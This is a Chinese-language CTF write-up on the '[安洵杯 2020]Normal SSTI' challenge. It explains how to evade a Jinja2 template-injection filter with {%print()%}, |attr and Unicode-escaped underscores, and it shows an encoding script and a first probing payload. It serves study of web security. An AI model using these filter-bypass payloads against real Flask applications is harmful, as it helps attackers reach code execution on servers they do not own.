 学习文章：[最全SSTI模板注入waf绕过总结（6700+字数！）](https://blog.csdn.net/2301_76690905/article/details/134301620)、[FLask SSTI从零到入门 - 跳跳糖](https://tttang.com/archive/1698/)、[使用Python Flask搭建一个简单的Web站点并发布到公网上访问](https://blog.csdn.net/m0_74824534/article/details/144319392)

# 一、刷题
## （一）<font style="color:rgb(0, 0, 0);">[安洵杯 2020]Normal SSTI</font>
进到靶场只有一下信息

## ![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737830123003-eb48d622-5ef2-4b45-8090-d26b1f4c7d4b.png)
随便试几个数

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737831383793-89adc068-03cf-4493-8b2e-730533d38c91.png)

<font style="color:rgb(77, 77, 77);">这一题关键在于用Unicode编码绕过点和下划线的过滤和用{%%}绕过{{}}的过滤</font>

<font style="color:rgb(48, 49, 51);">这个只要知道了用编码绕过就很好解</font>

<font style="color:rgb(48, 49, 51);">学习了一些知识后知道了：</font>

<font style="color:rgb(48, 49, 51);">过滤了{{}}可以使用{%print()%}</font>

<font style="color:rgb(48, 49, 51);">因为.和[]被过滤，所以使用flask的|attr来调用方法</font>

<font style="color:rgb(48, 49, 51);">‘’|attr(“__class__”)等于</font>

<font style="color:rgb(48, 49, 51);">‘’.__class__</font>

<font style="color:rgb(48, 49, 51);">如果要使用xxx.os(‘xxx’)类似的方法，可以使用</font>

<font style="color:rgb(48, 49, 51);">xxx|attr(“os”)(‘xxx’)</font>

用脚本

```python
class_name = "__class__"
unicode_class_name = ''.join(['\\u{:04x}'.format(ord(char)) for char in class_name])
print(unicode_class_name)
```

得到

```plain
\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f
```

所以先构造playload

```plain
url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}
```

得到

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737832210924-4e868c58-1704-4b8d-9e3f-cf30ad565fb4.png)
